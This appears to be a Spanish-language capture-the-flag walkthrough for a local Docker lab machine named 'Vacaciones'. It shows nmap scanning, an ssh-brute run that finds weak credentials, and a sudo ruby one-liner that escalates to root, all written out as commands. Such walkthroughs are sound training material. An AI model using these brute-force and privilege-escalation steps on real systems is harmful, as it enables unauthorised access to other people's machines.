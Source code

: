 - Tags: #Vacaciones
---
[Maquina vacaciones](https://mega.nz/file/YCEGAISD#y6iWUG_auH4vUApClb9ix7H6JmOCKm4vAYS2TjQn59g) ==> Enlace de descarga al laboratorio.
```bash
 7z x vacaciones.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh vacaciones.tar # Desplegamos el laboratorio
```
---

#### Fase Reconocimiento
```bash
ping -c 1 172.17.0.2 # Realizamos una traza ICMP para ver si tenemos comunicacion con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```
---

#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos en el target
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```
---
- **( 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0) )** ==> Tenemos una version ssh expueste y no actualizada,
```bash
searchsploit ssh 7.6 # Tenemos posibles exploits que nos permitirian uan posible enumeracion de usarios validos.
nmap -p80 --script http-enum 172.17.0.2 # No reporta nada craitico
```
- **( 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu)) )** ==> Tenemos un servicio de apache expuesto por el puerto 80.

#### Fase Reconocimiento Web:
- **( http://172.17.0.2/ )** ==> Tenemos este servicio web que no vemos nada de inicio
- **( ctrl + u )** ==> Revisamos el codigo fuente encontrando esto:
```bash
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```
---
- **Nota** ==> Tenemos dos potenciales usuarios que despues podemos auditar. la parte de rutas y subdirectorios no encontramos nada relevante, 
```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.txt 172.17.0.2   # Realizamos fuera bruta a los posibles usuario que encontramos logrando encontrar una credencial ssh valida.
camilo:password1 - Valid credentials
```
---
- Inciaremos la conexion por **ssh**
```bash
ssh-keygen -R 172.17.0.2 && ssh camilo@172.17.0.2 # Despues proporcionamos la password
```
---
- **( camilo )** ==> Ahora estamos logueados como el usuario camilo, Realizamos tratamiento de la tty
```bash
script /dev/null -c bash
```
---

#### Escalda de privilegios
```bash
sudo -l # No tenemos permisos Sudoers

/var/mail/camilo # Aqui buscamos el supuesto correo
correo.txt # Revisamos el contenido del correo, que nos proporciona una password. 
2k84dicb # Password
```
---
- Con esta password ahora podemos migrar al usuario **juan** para ahora con este usuari enumerar el sistema.
```bash
sudo -l # Ahora si que tenemos permiso sudoers
User juan may run the following commands on fe9555520203:
    (ALL) NOPASSWD: /usr/bin/ruby
```
---
- Explotaremos este binario para elevar nuestros privilegios a **root**
```bash
sudo -u root /usr/bin/ruby -e 'exec "/bin/bash"' # Ahora somos root
```